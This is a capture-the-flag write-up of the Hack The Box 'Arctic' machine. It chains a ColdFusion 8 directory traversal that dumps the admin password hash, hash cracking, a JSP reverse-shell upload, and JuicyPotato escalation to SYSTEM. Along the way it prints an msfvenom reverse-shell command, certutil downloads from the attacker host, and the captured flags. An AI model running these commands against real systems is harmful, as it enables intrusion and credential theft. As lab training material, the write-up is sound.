<div align="center">



</div>

## 📌 Overview

Arctic is an easy Windows machine on Hack The Box. It runs Adobe ColdFusion 8 on a non-standard port, exposed to the internet with no authentication on the directory listing. The box is old, poorly patched, and the attack path is sitting right on the surface — if you know what ColdFusion is and how to read an exploit.

What makes Arctic interesting is the chain it teaches. You do not brute-force anything. You do not guess. You find a known CVE, read it carefully, understand what it dumps, then use that dump to authenticate into an admin panel and get code execution. The privilege escalation follows the same logic — one privilege in `whoami /priv` output tells you everything you need to know.

---

## 🛠 Tools Used

```
nmap            → port scanning and service enumeration
gobuster        → directory brute forcing (not needed here — directory listing was open)
john            → hash cracking
msfvenom        → reverse shell payload generation
python3         → HTTP server for file serving
netcat (nc)     → reverse shell listeners
certutil        → file download on Windows target
JuicyPotato     → SeImpersonatePrivilege exploitation
GTFOBins        → privilege escalation reference
ExploitDB       → exploit source (EDB-ID 14641, 50057)
```

---

## 🧭 Walkthrough

### Step 1 — Nmap Reconnaissance

Every engagement starts the same way. You do not touch the target until you know what is running on it.

Start with a fast full-port scan to find everything open:

```bash
nmap -p- --min-rate 5000 -Pn 10.129.32.223
```



Three open ports came back:

```
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
```

Port 8500 immediately stands out. Port 135 is standard Windows RPC — expected on any Windows machine. Port 49154 is a dynamic RPC port, also expected. But port 8500 is not a Windows default. Something is running there deliberately.

Run the detailed scan to get versions and OS information:

```bash
nmap -T4 -sV -A -Pn 10.129.32.223
```



The OS detection comes back as Windows Server 2008 R2. WORKGROUP — not domain joined. No Active Directory, no Kerberos, no LDAP. This eliminates an entire category of attacks before we even touch the target. Focus goes to local services.

Port 8500 is identified as `fmtp` by nmap, but that is just nmap guessing from the port number. The real answer comes from browsing to it.

---

### Step 2 — Web Enumeration on Port 8500

Browse to `http://10.129.32.223:8500` in the browser.



Directory listing. Two directories: `CFIDE` and `cfdocs`. No authentication, no redirect, just a raw directory listing. The name `CFIDE` is the immediate signal. Navigate into it:



The full CFIDE structure is exposed. Every directory is browsable. The `administrator` directory is the ColdFusion admin panel. The `scripts` directory contains the FCKeditor file upload path — which becomes relevant later.

If you are unfamiliar with Adobe ColdFusion, a quick search clarifies what we are dealing with:



Adobe ColdFusion is a rapid web application development platform using CFML (ColdFusion Markup Language) — a tag-based language for building dynamic web applications and API services. Knowing what it is tells you where to look for exploits: it is a mature, enterprise product with a long CVE history.

Browse to `http://10.129.32.223:8500/CFIDE/administrator/`:



Adobe ColdFusion 8. The version is confirmed right on the login page. This matters — ColdFusion 8 is end-of-life and has well-documented public exploits.

---

### Step 3 — Identifying the Vulnerabilities

Search for Adobe ColdFusion 8 exploits. Two CVEs are relevant:

**CVE-2010-2861 — Directory Traversal (EDB-ID: 14641)**



This exploit abuses a directory traversal vulnerability in ColdFusion's locale parameter. It allows reading arbitrary files from the server without authentication — including `password.properties`, which contains the ColdFusion admin password hash.

**CVE-2009-2265 — Remote Code Execution (EDB-ID: 50057)**



This exploit abuses an unauthenticated file upload vulnerability in the FCKeditor component bundled with ColdFusion 8. It uploads a JSP reverse shell payload directly to the server. A Python3 version is also available on GitHub:



The attack chain is: directory traversal to get the admin password hash → crack it → log into the admin panel → use the RCE exploit to get a shell.

The bash version of the RCE exploit (CVE-2009-2265) was tried first directly without authentication:



It failed — `uuidgen: command not found` on the attack machine. The bash version depends on `uuidgen` being installed. Rather than fix that, the directory traversal path was taken first, and the Python3 version of the RCE exploit was used later.

---

### Step 4 — Directory Traversal to Dump the Password Hash

The exploit is EDB-ID 14641. Reading the exploit code tells you exactly how to run it:



```python
def main():
    if len(sys.argv) != 4:
        print "usage: %s <host> <port> <file_path>" % sys.argv[0]
        print "example: %s localhost 80 ../../../../../../../lib/password.properties" % sys.argv[0]
```

The exploit tells you the arguments in its own usage message: host, port, file path. The example even provides the exact file path to use. Run it:

```bash
python2 14641.py 10.129.32.223 8500 ../../../../../../../lib/password.properties
```



The file was dumped across multiple ColdFusion endpoints. The output contains:

```
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```

The hash is extracted. SHA-1 format — 40 hex characters.

---

### Step 5 — Cracking the Hash

Before cracking, identify the hash type by searching it:



Google's AI overview identified it as a SHA-1 hash from the Arctic HTB machine with plaintext `happyday`. But the correct approach is to crack it properly. Save the hash to `hash.txt` and run john:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



```
happyday
```

John cracked it in seconds using rockyou. The password is `happyday`.

---

### Step 6 — Logging Into ColdFusion Admin

Navigate to `http://10.129.32.223:8500/CFIDE/administrator/` and enter `happyday`:



Logged in. Full access to the ColdFusion 8 administrator panel.

---

### Step 7 — Remote Code Execution via CVE-2009-2265

With admin access confirmed, use the Python3 version of CVE-2009-2265 (EDB-ID: 50057) to get a reverse shell.

The exploit has its connection variables hardcoded at the bottom of the script. Open it in a text editor and edit them:



```python
lhost = '10.10.17.9'
lport = 4433
rhost = "10.129.32.223"
rport = 8500
```

Set `lhost` to the VPN IP, `lport` to the listening port, `rhost` to the target, `rport` to 8500. Start a netcat listener on port 4433, then run the exploit:

```bash
python3 50057.py
```



The exploit generates a JSP reverse shell payload, uploads it to the target via the FCKeditor file upload path, then triggers execution by requesting the uploaded file. The netcat listener catches the connection:

```
connect to [10.10.17.9] from (UNKNOWN) [10.129.32.223] 49530
Microsoft Windows [Version 6.1.7600]

C:\ColdFusion8\runtime\bin>
```

Initial shell as `arctic\tolis`.

---

### Step 8 — User Flag

Navigate to tolis's Desktop and read the user flag:

```cmd
cd C:\Users\tolis\Desktop
type user.txt
```



```
5830aadd9fdd5939011858beb7c3309d
```

---

### Step 9 — Enumeration for Privilege Escalation

First thing in any Windows shell — check privileges:

```cmd
whoami /priv
```



```
SeChangeNotifyPrivilege       Enabled
SeImpersonatePrivilege        Enabled
SeCreateGlobalPrivilege       Enabled
SeIncreaseWorkingSetPrivilege Disabled
```

`SeImpersonatePrivilege` is **Enabled**. This single line is the entire privilege escalation path.

Confirm the OS version with systeminfo:

```cmd
systeminfo
```



```
OS Name:    Microsoft Windows Server 2008 R2 Standard
OS Version: 6.1.7600 N/A Build 7600
```

Windows Server 2008 R2. This matters for choosing the right tool.

---

### Step 10 — Understanding SeImpersonatePrivilege

Before running the exploit, understanding what this privilege is and why it leads to SYSTEM matters.

**The privilege exists for a legitimate reason.** Windows service accounts like the ColdFusion service need to act on behalf of authenticated users. `SeImpersonatePrivilege` is what enables this. Microsoft grants it to service accounts by design.

**Why attackers abuse it.** The attack tricks the Windows token negotiation process. When a high-privilege process like SYSTEM connects to a named pipe or COM server, it presents its security token as part of the handshake. If the listening side has `SeImpersonatePrivilege`, it can capture that token and call `CreateProcessAsUser()` to spawn a new process running as SYSTEM.

**Choosing the right tool.** The Potato family of exploits and PrintSpoofer all abuse this privilege but use different Windows mechanisms:

- **PrintSpoofer** — uses the Windows Print Spooler service. Works on Windows 10 and Server 2016/2019/2022. Does NOT work on Server 2008 R2.
- **JuicyPotato** — uses COM server impersonation with a specific CLSID. Works on Server 2008 R2 and older.

This box is Server 2008 R2. PrintSpoofer was attempted first to confirm it does not work:



PrintSpoofer downloaded successfully but is the wrong tool for this OS version. The correct writable path that persisted files was `C:\Users\tolis\AppData\Local\Temp` — `C:\Windows\Temp` had files being auto-deleted on this box.

---

### Step 11 — Privilege Escalation with JuicyPotato

Download JuicyPotato from the GitHub releases page:


Generate a Windows reverse shell payload with msfvenom. Note the target is x64 — architecture must match:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.17.9 LPORT=4445 -f exe -o shell.exe
```



Start a Python HTTP server to serve both files, then download them to the target using certutil:

```cmd
certutil -urlcache -f -split http://10.10.17.9/JuicyPotato.exe JP.exe
certutil -urlcache -f -split http://10.10.17.9/shell.exe shell.exe
```



Both files downloaded. Now the CLSID. JuicyPotato requires a valid CLSID for the target OS — different Windows versions use different COM server CLSIDs. The list is on the JuicyPotato GitHub repository:



Use the first wuauserv CLSID for Windows Server 2008 R2 Enterprise:

```
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

Start a second netcat listener on port 4445, then run JuicyPotato:

```cmd
JP.exe -t * -p C:\Users\tolis\AppData\Local\Temp\shell.exe -l 9001 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

The `-t *` flag tries both `CreateProcessWithTokenW` and `CreateProcessAsUser`. `-p` is the program to execute. `-l` is JuicyPotato's internal COM listen port. `-c` is the CLSID.



```
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 9001
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
```

`authresult 0` means success. The CLSID worked. The shell executed as `NT AUTHORITY\SYSTEM`.

The netcat listener on port 4445 caught the connection:



```
connect to [10.10.17.9] from (UNKNOWN) [10.129.32.223] 49748
Microsoft Windows [Version 6.1.7600]

C:\Windows\system32>whoami
nt authority\system
```

SYSTEM. The highest privilege level on Windows.

---

### Step 12 — Root Flag

Navigate to the Administrator Desktop and read the root flag:

```cmd
cd C:\Users\Administrator\Desktop
type root.txt
```



```
87b510317285679fa978a6f9908e228c
```

Both flags captured. Machine fully compromised.

---

## 🚩 Flags

| Flag     | Location                              | Value                            |
| -------- | ------------------------------------- | -------------------------------- |
| user.txt | C:\Users\tolis\Desktop\user.txt       | 5830aadd9fdd5939011858beb7c3309d |
| root.txt | C:\Users\Administrator\Desktop\root.txt | 87b510317285679fa978a6f9908e228c |

---

## 📌 Conclusion

**Read the exploit before running it.** The first attempt with CVE-2009-2265 used a bash script version that failed immediately with `uuidgen: command not found`. Reading the exploit top to bottom before running it reveals its dependencies. Five minutes of reading saves thirty minutes of debugging.

**The exploit tells you how to run it.** Both exploits used on this box told you exactly how to run them. The directory traversal exploit (14641) printed its usage in a `if len(sys.argv) != 4` block — host, port, and file path, with an example path included. The RCE exploit (50057) had connection details hardcoded as variables at the bottom. The author always tells you how to use it.

**OS version determines your privesc tool.** `SeImpersonatePrivilege` is the same privilege on every Windows version, but the tools that exploit it are not interchangeable. PrintSpoofer requires a Print Spooler coercion path that only exists on Server 2016 and newer. JuicyPotato uses COM server impersonation that works on Server 2008 R2 and older. Check `systeminfo`, check the OS version, then pick the right tool.

**Writable directories are not all equal.** `C:\Windows\Temp` is the obvious writable directory on Windows, but on this box it had something cleaning files out regularly. The fix was `C:\Users\tolis\AppData\Local\Temp`, which persisted files correctly. When a download succeeds but the file does not appear in `dir`, try a different writable path.

**sudo -l on Linux, whoami /priv on Windows — always first.** On this box `SeImpersonatePrivilege` was visible the moment the shell landed. The entire privilege escalation from that finding to SYSTEM shell was five commands. Check privileges immediately after landing any shell.

---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀


